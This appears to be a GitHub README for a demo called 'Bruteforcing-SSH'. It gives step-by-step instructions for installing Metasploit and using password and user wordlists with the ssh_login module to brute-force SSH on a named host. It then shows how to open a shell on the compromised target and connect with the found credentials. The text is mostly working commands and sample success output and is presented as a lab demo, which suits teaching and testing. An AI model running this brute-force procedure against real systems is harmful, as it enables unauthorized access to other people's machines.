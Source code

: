 # Bruteforcing-SSH
========

This is a demo which will exploit SSH on a linux host. Once SSH access is gained, privilege escalation is used to become root. 


Downloading Dictionary Files
------------

Clone the project on your local system:

    git clone https://github.com/sillihkram/Bruteforcing-SSH.git
    cd Bruteforcing-SSH/

unpack and prepare the list of commonly used users & passwords
    
    gunzip passwords.txt.gz
    cp passwords.txt /tmp/passwords.txt 
    cp users.txt /tmp/users.txt

Just so you are familiar, take at the content and format of the files 
    
    wc -l /tmp/passwords.txt # Notice this is a long list
    head /tmp/passwords.txt
    head /tmp/users.txt
    

# Installing Metasploit (RHEL, Fedora, CentOS)
------------

Download the latest version of Metasploit Framework (OSS)

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

Set Permissions 

    chmod 755 msfinstall

 Run the install script

    ./msfinstall

By default metasploit framework installs it's self to `/opt/` let's take a look and add that to our path
    
    ls /opt/
    echo $PATH

Add the `/opt/metasploit-framework/bin/` directory to our path


    PATH=/opt/metasploit-framework/bin/:$PATH
    # you may want to make this persistant add this line to your .bash_profile


Add Metasploit repo to our system and make sure we have the latest version.

    msfupdate

# Installing Metasploit (Mac)
------------

    brew install metasploit
     

# Using Metasploit
------------

Launch the metasploit framework console

 
    msfconsole


List the available exploits modules for metasploit


    show exploits

Because there are over 2000 modules it may make more sense to search for one we're looking for
 
    search ssh login

For this demo select the auxiliary/scanner/ssh/ssh_login exploit module

    use auxiliary/scanner/ssh/ssh_login


List the options available for this module

    options

Define options for ssh_login module to launch a brute force attack against a target host

    set stop_on_success true
    set pass_file /tmp/passwords.txt
    set user_file /tmp/users.txt
    set threads 10


Define a target
    
    set rhost graffias.openincite.net

Launch the brute force attack

    exploit

if Metasploit successfully authenitcates with a usr/pass provided in the lists you'll see a message similar to the following:

`[+] 192.168.0.136:22 - Success: 'docker:password'`


Not only did metasploit find a combination that successfully authenticates but it also left a session open. List the open sessions

    sessions

To interact with the open session use the sessions command: `sessions -i <session id>`

    sessions -i 1

Now you are connected to a shell on the target. try typing some basic shell commands

    hostname -f
    uname -a

# Enumerating a Host
------------

connect to the target using the discovered credentials

    ssh graffias.openincite.net -l docker
